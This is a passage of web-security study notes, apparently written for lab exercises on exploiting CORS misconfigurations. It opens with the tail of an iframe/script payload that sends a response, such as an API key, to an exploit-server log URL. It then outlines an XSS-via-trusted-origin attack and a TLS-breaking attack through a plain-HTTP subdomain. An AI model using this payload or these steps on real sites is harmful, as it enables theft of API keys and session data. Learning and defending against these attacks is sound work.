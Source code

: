 ```

function reqListener() {
location='https://exploit-0a42006a0320430a8118333001e40020.exploit-server.net/log?key='+this.responseText;
};
</script>"></iframe>
```

# Exploiting XSS via CORS trust relationships
- Even "correctly" configured CORS establishes a trust relationship between two origins. 
- If a website trusts an origin that is vulnerable to cross-site scripting (XSS), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.
- Given the following request:
```HTTP
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```
- If the server responds with:
```HTTP
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
- Then an attacker who finds an XSS vulnerability on subdomain.vulnerable-website.com could use that to retrieve the API key, using a URL like:
```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

# Breaking TLS with poorly configured CORS
- Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. 
- For example, when the application receives the following request:
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```
- The application responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
- In this situation, an attacker who is in a position to intercept a victim user's traffic can exploit the CORS configuration to compromise the victim's interaction with the application. 
- This attack involves the following steps:
- The victim user makes any plain HTTP request.
- The attacker injects a redirection to:
```
http://trusted-subdomain.vulnerable-website.com
```
- The victim's browser follows the redirect.
- The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to:
```
https://vulnerable-website.com
```
- The victim's browser makes the CORS request, including the origin:
```
```